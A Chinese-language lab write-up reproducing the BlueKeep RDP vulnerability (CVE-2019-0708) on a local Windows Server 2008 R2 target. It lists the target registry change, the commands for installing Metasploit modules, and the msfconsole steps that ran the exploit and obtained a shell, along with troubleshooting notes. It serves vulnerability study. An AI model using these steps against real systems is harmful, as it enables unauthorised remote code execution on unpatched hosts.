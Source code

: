 # 0x00 软件介绍
Windows RDP：Windows下自带的一款远程桌面服务

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2008_r2_standard_zh-chs

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

前提条件：  
2008_r2_standard_zh-chs修改注册表值项HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\WinStations\RDP-Tcp\fDisableCam的值为1  
（有的文章指出要修改的注册表值项为HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal\Server\WinStations\rdpwd\fDisableCam，但我的系统没有值项rdpwd，而在项RDP-Tcp下有值项fDisableCam）

# 0x03 利用条件
无

# 0x04 影响版本
无

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

将如下3个文件替换msf中默认的文件  
cp ./rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/  
cp ./rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/（有的文章中给出的目录是/usr/share/metasploit-framework/modules/auxiliary/scanner/，我想应该是少写了rdp/）  
cp ./cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/  
将如下1个文件添加到msf中  
cp ./cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/  
配置meterpreter：  
msfconsole  
search 0708  
use windows/rdp/cve_2019_0708_bluekeep_rce  
set RHOSTS 192.168.149.130  
run  
选择目标为3（vmware）

第一次没修改注册表，系统蓝屏  
第二次修改注册表后，成功拿到shell  
第三次修改注册表后，系统蓝屏  
第四次修改注册表后，报错Connection reset by peer  
结论，08 r2需要修改注册表，而且利用不稳定

# 0x06 踩坑记录
坑0：Exploit aborted due to failure: bad-config: Set the most appropriate target manually  
表示需要设置对应的目标  
坑1：Exploit failed: NameError undefined local variable or method  
需要额外修改三个文件  
坑2：Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer  
未知  

# 0x07 参考链接
https://github.com/rapid7/metasploit-framework/pull/12283  
http://blog.xkkhh.cn/archives/535
